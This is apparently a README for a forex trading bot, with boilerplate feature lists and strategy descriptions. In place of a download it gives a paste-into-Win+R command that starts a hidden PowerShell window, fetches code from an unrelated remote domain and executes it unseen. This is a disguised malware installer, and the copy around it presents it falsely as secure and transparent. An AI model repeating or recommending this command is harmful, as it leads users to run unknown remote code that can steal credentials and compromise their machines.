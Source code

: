 # Forex Trading Bot 💹🌍

## Project Description
**Forex Trade Bot** is an automated trading bot designed to trade currencies in the foreign exchange market. The bot analyzes market data, executes trades based on predefined strategies, and aims to maximize profits while minimizing risks.

## Key Features
- **Multi-Currency Support**: Trade a wide range of currency pairs in the Forex market.
- **Real-Time Market Analysis**: Continuously analyzes market trends and price movements.
- **Automated Trading**: Executes trades automatically based on custom strategies and indicators.
- **Risk Management**: Implements risk management techniques to protect your investment.
- **User -Friendly Dashboard**: Provides a simple interface for monitoring trades and performance.



<h2>📥 Download the Program</h2>

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>


## Example Strategies 📈
- **Trend Following**: Identify and follow the direction of market trends.
- **Mean Reversion**: Trade based on the assumption that prices will revert to their mean value.
- **Breakout Trading**: Enter trades when the price breaks through established support or resistance levels.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [MetaTrader API Documentation](https://www.mql5.com/en/docs/integration)
- [Forex Factory Economic Calendar](https://www.forexfactory.com/calendar.php)

---

**SEO Keywords**: Forex Trading Bot, automated trading, currency trading, foreign exchange, trading strategies, market analysis.
